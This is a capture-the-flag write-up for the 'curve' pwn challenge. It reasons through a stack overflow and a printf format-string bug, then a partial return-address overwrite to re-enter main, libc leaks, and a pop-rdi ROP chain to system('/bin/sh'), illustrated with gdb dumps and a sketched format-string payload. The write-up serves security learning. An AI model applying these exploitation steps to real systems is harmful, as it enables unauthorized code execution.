 # Write Up

## Challenge: **pbjar/2021/pwn/curve**

### Initial Research
---

`! first thing first`

```console
❯ file curve
curve: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=e8fe3eece1912689d5e47acaf76c1dca070f4ad8, not strippe
```

```console
❯ pwn checksec curve
[*] '/home/whoami/ctfs/pbjar/pwn/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

`! everything is on`

`! ghidra time`

```c
undefined8 main(void)
{
  ...
  char local_98 [136];
  ...
  puts("Input 1:");
  read(0,local_98,0xb0);
  puts(local_98);
  ...
}
```

>! obviously, read is overflowing the stack by 0xb0-136=40 bytes

>! but canary says sorry

>! okay, let's see what puts can leak from the stack

```console
(gdb) x/22gx $rbp-0x90
0x7fffffffd890: 0x0000000000000000      0x0000000000000000
0x7fffffffd8a0: 0x0000000000000000      0x0000000000000000
0x7fffffffd8b0: 0x0000000000000000      0x0000000000000000
0x7fffffffd8c0: 0x0000000000000000      0x0000000000000000
0x7fffffffd8d0: 0x0000000000f0b5ff      0x00000000000000c2
0x7fffffffd8e0: 0x00007fffffffd907      0x0000555555555325
0x7fffffffd8f0: 0x0000000000000000      0x0000000000000000
0x7fffffffd900: 0x00005555555552e0      0x00005555555550b0
0x7fffffffd910: 0x00007fffffffda10      0xd6438ff453680d00
0x7fffffffd920: 0x00005555555552e0      0x00007ffff7e2cd0a
0x7fffffffd930: 0x00007fffffffda18      0x0000000100000000
```

! we can leak only one of these -
+ a stack address
+ an address where curve loaded
+ an address where libc loaded if we go through canary

? what else, and only else

```c
undefined8 main(void)
{
  ...
  char local_98 [136];
  ...
  __format = (char *)malloc(0x80);
  ...
  puts("Input 2:");
  read(0,local_98,0x80);

  puts("\nInput 3:");
  read(0,__format,0x80);
  printf(__format);
  free(__format);
  return 0
}
```

>? printf
>! this will allow us to leak the data from the stack
>! and to write the random locations where the data from the stack is pointed to
>! or if we combine with input 2, we can write an arbitrary location, as it's writing into the stack

### Thought flow
---
`! leak the stack address using input 1`

`! write the shell code and the main return address pointer into the stack using input 2`

`! modify the main return address on the stack with the shell code address using printf`

`! execution will be redirected`

```diff
+ stack address can be leaked
+ main return address pointer can be calculated
+ shell code and pointer can be combined
+ still can modify the main return address with a painful printf bandwidth, as we can only write one pointer on the stack
- unfortunately stack is not executable: FULL RELRO
```
`! we can still redirect the execution where ever we want`

`? any system call in the program`

`! not found`

`! wait we can't know any other address to jump if we need stack address for redirection`

`! stuck`

`! wait original return address might be useful`

`! oh, i can only modify a part of it`

`! that would allow to jump some special location with proper alignment`

`! let's see what is interesting there`

```console
(gdb) disas 0x00007ffff7e2cd0a
   ...
   0x00007ffff7e2cd03 <+227>:   mov    rax,QWORD PTR [rsp+0x10]
   0x00007ffff7e2cd08 <+232>:   call   rax
   0x00007ffff7e2cd0a <+234>:   mov    edi,eax
   0x00007ffff7e2cd0c <+236>:   call   0x7ffff7e44660 <exit>
   ...
(gdb) x/i $rsp+0x10
   0x555555555195 <main>:       push   rbp
```
`! interesting`

`! if we change the least significant byte of the return address from 0x..0a to 0x..03, the main will be called again`

`! perfect`

`! now we can leak everything from the memory with printf, as the program will not end`

`! the payload would be like "111%{}$hhn %{}$lx ..."`

`! the first format is to modify the return address and else to leak`

`? now what`
```diff
+ able to write to any amount of memory locations as we can loop back to mean
+ a libc address can be leaked
+ system address can be calculated
+ can redirect to system
- rdi needs to be loaded with string pointer pointed to "/{program_path}"
```

`? how to call system properly without shell code`

`! stuck`

`! oh wait, pop rdi; ret; will call the system cause we have full control of stack`

`! if we found those instructions on any loaded program by any chance, we can redirect to there with a crafted stack`

`! let's see the shell code of those instructions real quick`

```console
❯ echo -e "pop rdi\nret" > pop-rdi-ret.asm
❯ nasm -f elf64 pop-rdi-ret.asm
❯ objdump -d pop-rdi-ret.o
...
0000000000000000 <.text>:
   0:   5f                      pop    %rdi
   1:   c3                      retq
```

`! search for 0x5f 0xc3 in ghidra`

```console
        undefined __libc_csu_init()
...
        0010133a 41  5f           POP        R15
        0010133c c3              RET
```

`! it's in the csu init`

`! we can jump to 0x..3b instead of 0x..3a`

`! that will pop the rdi and return`

`! before return to there, stack format should be`

```
* rsp
| address_to_0x5f0xc3 | bin_sh_address | system_address |
```

```diff
+ __libc_csu_init address can be calculated from leaked address
+ /bin/sh can be written to heap
+ heap address is also leaked
```

`! perfect`

`! review` [exploit.py](exploit.py) `for implementation`